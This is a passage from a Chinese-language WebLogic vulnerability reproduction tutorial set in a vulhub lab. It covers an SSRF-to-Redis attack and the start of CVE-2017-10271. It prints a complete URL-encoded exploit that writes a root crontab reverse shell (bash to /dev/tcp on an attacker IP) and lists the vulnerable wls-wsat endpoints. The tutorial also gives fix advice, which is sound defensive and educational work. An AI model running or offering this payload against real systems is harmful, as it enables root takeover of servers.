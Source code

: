 进行URL编码  
```
%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.235.9%2F7777%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaa
```  
  
完整的EXP  
```
http://172.19.0.2:6379/text%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.235.9%2F7777%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaa
```  
  
监听端口  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVEwsb4iaClQ2LCxHlYj6wBaHvPK4Qn26gCsxHgr4icVPbBWFbiaTIqvQXkg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE99opKcPmUJ0ZZiblF1oP04WkIxbZ1l9D84bQPH1MS8hrkKJEIb6BVTw/640?wx_fmt=png&from=appmsg "")  
  
等待一会儿即可接收到Shell  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fo3OZEF1OKptCgepBYlrpw4GFlTVAlVE8e1jDxKwic16MB99RyjwAvGPp0LrBsOHuOBS6mHTGtBzS4VJ2icAdNeA/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
```
限制 uddiexplorer 应用只能内网访问。
在不影响业务的情况下，将 SearchPublicRegistries.jsp 文件删除。
```  
  
  
**0xA****CVE-2017-10271**  
  
**漏洞描述**  
  
    CVE-2017-10271与CVE-2017-3506的漏洞原理是一样的，即WebLogic对恶意的XML请求防范的不够严密。  
  
  
**影响范围**  
```
WebLogic 10.3.6.0
WebLogic 12.1.3.0
WebLogic 12.2.1.0
WebLogic 12.2.1.1
WebLogic 12.2.1.2
```  
  
**环境搭建**  
```
cd vulhub/weblogic/CVE-2017-10271
docker compose up -d
```  
  
**漏洞复现**  
  
访问下面的地址  
```
http://192.168.111.128:7001/wls-wsat/CoordinatorPortType11

访问下面的路径也可以
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11/wls-wsat/RegistrationRequesterPortType11
```  
  